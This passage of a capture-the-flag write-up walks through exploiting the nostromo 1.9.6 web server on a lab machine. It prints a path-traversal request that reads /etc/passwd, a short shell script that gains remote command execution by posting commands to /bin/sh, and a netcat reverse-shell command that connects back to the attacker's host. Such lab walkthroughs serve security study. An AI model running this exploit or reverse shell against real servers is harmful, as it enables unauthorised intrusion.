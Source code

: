## Step 2: Exploting nostromo
There are some scripts online to exploit this, but since it looks trivial to
implement I wrote quick shell script that exploits this. I prefer implementing
my own exploits when feasible over using pre-made toolkits such as metasploit.

This exploit relies on a path traversal protection bypass, which can be used
to request arbitrary files of the server.
<pre>
debian $ printf "GET /.%%0d./.%%0d./.%%0d./.%%0d./etc/passwd HTTP/1.0\r\n\r\n" | nc 10.10.10.165 80
HTTP/1.1 200 OK
Date: Thu, 16 Apr 2020 02:05:27 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Fri, 25 Oct 2019 18:34:30 GMT
Content-Length: 1395
Content-Type: text/html

root:x:0:0:root:/root:/bin/bash
...
david:x:1000:1000:david,,,:/home/david:/bin/bash
...
</pre>

Unfortunetly for the users of nostromo, and fortunetly for us this gets much
worse when we `POST` instead of `GET`-ing. We can post commands to `/bin/sh`
and instead of giving us the binary contents, the server executes it with
**our** input, thus we gain remote command execution with the same permission
as nostromo itself has.

The following shell script implements this.
<pre>
#!/bin/sh
# Usage: rce.sh ip command
printf "POST /.%%0d./.%%0d./.%%0d./.%%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n$2 2>&1\n" | nc $1 80
</pre>

This might look very dense, but all we are doing is generating an HTTP request
using printf into netcat with the body of the request being the command we
intend to execute. The two `echo` commands are necessary for nostromo to
return the output instead of failing with a `500 Internal Server Error`.

Using our RCE script we get a reverse shell with nostromo's persmissions.
<pre>
First shell on hacker computer:
debian $ nc -lvp 9999
www-data@traverxec $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@traverxec $ hostname
traverxec

Second shell on hacker computer:
debian $ ./rce.sh 10.10.10.165 "nc hacker_ip 9999 -e /bin/sh"
</pre>
